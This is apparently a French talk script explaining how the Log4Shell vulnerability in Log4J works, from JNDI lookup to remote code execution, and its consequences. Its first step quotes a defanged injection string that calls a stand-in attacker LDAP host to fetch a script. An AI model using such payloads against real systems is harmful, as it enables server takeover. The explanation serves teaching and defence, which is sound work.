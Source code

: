 
## 3. **Description technique de l’attaque : Comment fonctionne Log4Shell ?**
   - **Durée : 3 minutes**

Nous allons maintenant détailler le fonctionnement de l'attaque Log4Shell, en utilisant cette **seconde image** pour illustrer les étapes du processus.

Log4Shell exploite une fonctionnalité de **lookup dynamique** dans Log4J. Cette fonctionnalité permet à Log4J d’exécuter des expressions insérées dans des champs comme le **User-Agent** ou les **paramètres HTTP**. Malheureusement, cela signifie que si un attaquant injecte une chaîne malveillante, Log4J peut interpréter et **exécuter cette chaîne**, entraînant une **exécution de code à distance**.

Voici comment l’attaque se déroule en détail, en suivant les étapes illustrées dans l’image :

1. **Injection de la chaîne malveillante** : L’attaquant envoie une requête contenant une chaîne malveillante dans un champ comme le **User-Agent**. Dans l’image, la chaîne ressemble à ceci : `${jndi:ldap://sitedupirate[.]com/script-dangereux.sh}`. Ce que cela signifie, c’est que l’attaquant demande à Log4J de contacter un serveur **LDAP** (Lightweight Directory Access Protocol), qui est sous le contrôle du pirate.

2. **Appel à JNDI** : **JNDI** (**Java Naming and Directory Interface**) est une interface Java qui permet de retrouver des objets distants via des protocoles comme **LDAP** ou **DNS**. Log4J voit la chaîne `${jndi:ldap://...}`, contacte le serveur **LDAP** du pirate et tente de charger un objet Java depuis ce serveur.

3. **Exécution du code malveillant** : Une fois que le serveur vulnérable a contacté le serveur du pirate, celui-ci renvoie un **objet Java sérialisé** contenant du code malveillant, qui est ensuite exécuté directement sur le serveur vulnérable. Ce processus permet à l'attaquant de **prendre le contrôle total** du serveur et d'exécuter des scripts comme le `script-dangereux.sh` visible dans l’image.

**Pourquoi cette attaque est-elle si redoutable ?**
- **Surface d’attaque étendue** : Le pirate peut injecter cette chaîne dans de nombreux points d'entrée de l'application, que ce soit dans l'URL, les headers HTTP, ou même les formulaires de saisie. Tout endroit où Log4J peut enregistrer des logs devient potentiellement dangereux.
- **Exploitation facile** : Un simple accès à l’application via une requête HTTP suffit pour injecter du code.
- **Exécution à distance** : Le serveur va récupérer et exécuter du code Java à partir d’un serveur contrôlé par l'attaquant. Cela donne un contrôle total au pirate sur le serveur vulnérable.

---

## 4. Conséquences : Quels sont les risques concrets de Log4Shell ?
- **Durée : 2 minutes**
- 
Les conséquences de Log4Shell sont très sérieuses. En accédant à un serveur via cette vulnérabilité, un attaquant peut prendre le contrôle complet du serveur, exécuter des scripts arbitraires, installer des ransomwares, ou même voler des informations sensibles.

Les sociétés de cybersécurité, comme CheckPoint et Palo Alto Networks, ont observé une augmentation massive des attaques exploitant cette vulnérabilité dès sa divulgation. Certaines variantes d’attaques ont été particulièrement sophistiquées, utilisant des chaînes encodées en Base64 pour échapper à la détection et rendre l’analyse plus complexe.
